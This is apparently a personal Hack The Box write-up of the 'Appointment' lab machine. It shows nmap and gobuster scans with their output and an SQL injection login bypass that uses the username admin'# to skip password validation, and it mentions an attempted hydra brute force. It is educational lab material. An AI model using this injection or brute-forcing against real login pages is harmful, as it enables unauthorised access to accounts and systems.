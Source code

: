 ```toc
```
# HTB Notes - Appointment #

+ **Date**: 12-7-2022
+ **Author**: Noah Soqui
+ **Tags**: #Web #SQL #SQL_Injection

## Intelligence Gathering ##

Scanning machine
+ `sudo nmap -sV -sC -O TARGET_IP`
+ Output:
``` Shell
Nmap scan report for 10.129.124.141
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login
```

Noticing that it is an apache web server, will use <mark style="background: #BBFABBA6;">gobuster</mark> to fuzz for directories and php files 
``` Shell
gobuster dir --url http://10.129.124.141/ --wordlist /usr/share/wordlists/dirb/big.txt -x php
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.124.141/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/12/07 15:36:26 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess.php        (Status: 403) [Size: 279]
/.htpasswd.php        (Status: 403) [Size: 279]
/css                  (Status: 301) [Size: 314] [--> http://10.129.124.141/css/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.124.141/fonts/]
/images               (Status: 301) [Size: 317] [--> http://10.129.124.141/images/]
/index.php            (Status: 200) [Size: 4896]
/js                   (Status: 301) [Size: 313] [--> http://10.129.124.141/js/]
/server-status        (Status: 403) [Size: 279]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.124.141/vendor/]
Progress: 40924 / 40940 (99.96%)===============================================================
2022/12/07 15:41:10 Finished
===============================================================
```

The index of the website is a login page, potentially has a possible SQL injection 

Other <mark style="background: #BBFABBA6;">good lists</mark> are in the git repository: `danielmiessler/SecLists`

## Misconfiguration and Vulnerability Analysis  ##

The login page could be vulnerable to a sql injection.

## Exploitation ##

On the login page, which takes a username and password, will use a SQL injection.
+ Assuming the SQL injection is something like this:
``` SQL
Select * FROM users WHERE username='INPUT_USER' AND password='INPUT_PASS'
```
+ Then by passing in `admin'#` as the username, will make the query look like this 
``` mySQL
Select * FROM users WHERE username='INPUT_USER'#' AND password='INPUT_PASS'
```
+ <mark style="background: #FF5582A6;">No longer validates the password </mark>

## Post Exploitation ##

After the SQL injection, the flag is displayed.

## Reporting ##

### Executive Summary ###

Spent some times scanning for other directories, though not much was helpful. Could use <mark style="background: #D2B3FFA6;">hydra</mark> with `http-post-form` switch, to brute-force, but that did not get in. Also scanned for other directories and PHP files, but nothing helpful was found with that. Then the simple SQL injection was found, which allowed access by skipping password validation. 

